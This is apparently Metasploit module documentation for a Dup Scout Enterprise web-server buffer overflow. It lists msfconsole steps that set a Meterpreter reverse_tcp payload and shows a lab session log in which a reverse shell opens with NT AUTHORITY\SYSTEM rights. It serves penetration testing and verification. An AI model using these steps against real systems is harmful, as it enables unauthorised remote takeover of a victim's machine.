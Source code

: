 ## Vulnerable Application

[Dup Scout Enterprise](http://www.dupscout.com) versions up to v9.5.14 are affected by a stack-based buffer overflow vulnerability which can be leveraged by an attacker to execute arbitrary code in the context of NT AUTHORITY\SYSTEM on the target. The vulnerability is caused by improper bounds checking of the request path in HTTP GET requests sent to the built-in web server. This module has been tested successfully on Windows 7 SP1. The vulnerable application is available for download at [Exploit-DB](https://www.exploit-db.com/apps/4ead3eadc19bf3511e8dfd606624e310-dupscoutent_setup_v9.1.14.exe).

## Verification Steps
  1. Install a vulnerable Dup Scout Enterprise
  2. Start `Dup Scout Enterprise` service
  3. Start `Dup Scout Enterprise` client application
  4. Navigate to `Tools` > `Dup Scout Options` > `Server`
  5. Check `Enable Web Server On Port 80` to start the web interface
  6. Start `msfconsole`
  7. Do `use exploit/windows/http/dupscts_bof`
  8. Do `set RHOST ip`
  9. Do `check`
  10. Verify the target is vulnerable
  11. Do `set PAYLOAD windows/meterpreter/reverse_tcp`
  12. Do `set LHOST ip`
  13. Do `exploit`
  14. Verify the Meterpreter session is opened

## Scenarios

###Dup Scout Enterprise v9.5.14 on Windows 7 SP1

```
msf exploit(dupscts_bof) > show options 

Module options (exploit/windows/http/dupscts_bof):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST    172.16.0.18      yes       The target address
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.16.0.20      yes       The listen address
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Dup Scout Enterprise v9.5.14


msf exploit(dupscts_bof) > exploit 

[*] Started reverse TCP handler on 172.16.0.20:4444 
[*] Sending request...
[*] Sending stage (957487 bytes) to 172.16.0.18
[*] Meterpreter session 1 opened (172.16.0.20:4444 -> 172.16.0.18:49162) at 2017-04-26 15:16:08 +0100

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo 
Computer        : PC-01
OS              : Windows 7 (Build 7600).
Architecture    : x86
System Language : pt_PT
Domain          : LAB
Logged On Users : 3
Meterpreter     : x86/windows
meterpreter > 
```
